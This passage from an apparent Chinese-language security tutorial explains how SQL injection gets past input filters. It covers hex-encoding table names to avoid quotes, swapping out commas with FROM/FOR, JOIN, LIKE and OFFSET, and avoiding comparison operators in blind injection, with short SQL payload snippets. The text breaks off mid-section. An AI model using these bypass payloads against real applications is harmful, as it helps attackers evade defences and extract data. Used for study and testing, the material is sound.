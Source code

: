 ## 引号绕过（使用十六进制）

会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```sql
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

## 逗号绕过（使用from或者offset）

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

使用join：

```sql
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b
```

使用like：

```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

对于limit可以使用offset来绕过：

```sql
select * from news limit 0,1
```

\# 等价于下面这条SQL语句

```sql
select * from news limit 1 offset 0
```

## 比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）

使用greatest()、least（）：（前者返回最大值，后者返回最小值）
同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。
最常见的一个盲注的sql语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64
```
